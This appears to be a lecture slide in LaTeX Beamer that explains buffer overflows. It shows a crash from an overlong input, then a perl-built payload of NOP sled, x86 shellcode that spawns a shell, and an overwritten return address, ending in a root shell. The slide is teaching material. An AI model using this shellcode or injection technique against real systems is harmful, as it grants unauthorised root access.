 \begin{frame}{What is BOF?}
\begin{figure}
		\caption{BOF segmentation fault}
		\label{fig:segfault}
	\end{figure}
\framebreak
	\begin{block}{Also known as}
		\begin{verbatim}
			user$ ./note AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
			Segmentation fault
		\end{verbatim}
	\end{block}
\framebreak
	\begin{figure}
		\centering
		\includegraphics[width=\textwidth]{imgs/whoami.png}
		\caption{BOF whoami: root}
		\label{fig:whoami}
	\end{figure}
\framebreak
	\begin{block}{Also known as}
		\begin{verbatim}
			user$ ./note `perl -e 'printf("\x90" x 153 . "\x31\xdb\x31\xc9\x31\xc0\xb0\xcb\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\x31\xdb\xb0\x01\xcd\x80" . "\x90" x 22 . "\xef\xbe\xad\xde")'`
			sh-3.1# whoami
			root
		\end{verbatim}
	\end{block}
\end{frame}

